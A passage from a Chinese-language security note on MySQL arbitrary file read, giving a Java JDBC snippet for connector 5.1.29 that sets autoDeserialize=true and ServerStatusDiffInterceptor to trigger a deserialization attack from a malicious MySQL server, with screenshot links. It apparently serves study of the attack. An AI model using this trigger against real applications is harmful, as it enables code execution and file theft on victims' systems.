 ![image-20240907114025561](18.MYSQL任意文件读取.assets/image-20240907114025561.png)

### 5.1.29

针对`5.1.29` payload使用`ServerStatusDiffInterceptor`触发

```java
String driver = "com.mysql.jdbc.Driver";
String user = "Jdk8u181";
String password = "xxxx";
String DB_URL = "jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor";
Class.forName(driver);
Connection conn = (Connection) DriverManager.getConnection(DB_URL,user,password);
```

![image-20240907114531854](18.MYSQL任意文件读取.assets/image-20240907114531854.png)
